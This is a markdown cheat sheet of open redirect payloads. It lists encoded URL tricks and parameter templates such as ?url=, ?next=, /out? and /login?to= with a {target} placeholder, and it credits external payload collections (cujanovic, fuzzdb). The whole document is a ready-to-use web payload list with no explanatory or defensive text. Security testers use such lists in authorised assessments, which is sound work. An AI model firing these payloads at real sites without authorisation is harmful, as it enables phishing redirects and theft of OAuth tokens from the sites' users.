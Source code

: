 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```

```
//google.com/
```

```
//google.com/%2f..
```

## Possible open redirect parameters

```
?url=http://{target}
```

```
?url=https://{target}
```

```
?next=http://{target}
```

```
?next=https://{target}
```

```
?url=https://{target}
```

```
?url=http://{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?next=//{target}
```

```
?next=$2f%2f{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?url=//{target}
```

```
/redirect/{target}
```

```
/cgi-bin/redirect.cgi?{target}
```

```
/out/{target}
```

```
/out?{target}
```

```
/out?/{target}
```

```
/out?//{target}
```

```
/out?/\{target}
```

```
/out?///{target}
```

```
?view={target}
```

```
?view=/{target}
```

```
?view=//{target}
```

```
?view=/\{target}
```

```
?view=///{target}
```

```
/login?to={target}
```

```
/login?to=/{target}
```

```
/login?to=//{target}
```

```
/login?to=/\{target}
```

```
/login?to=///{target}
```



**Open Redirect Payloads** by @cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads


**Open Redirect Paramters** by @fuzzdb-project

https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/redirect/redirect-urls-template.txt
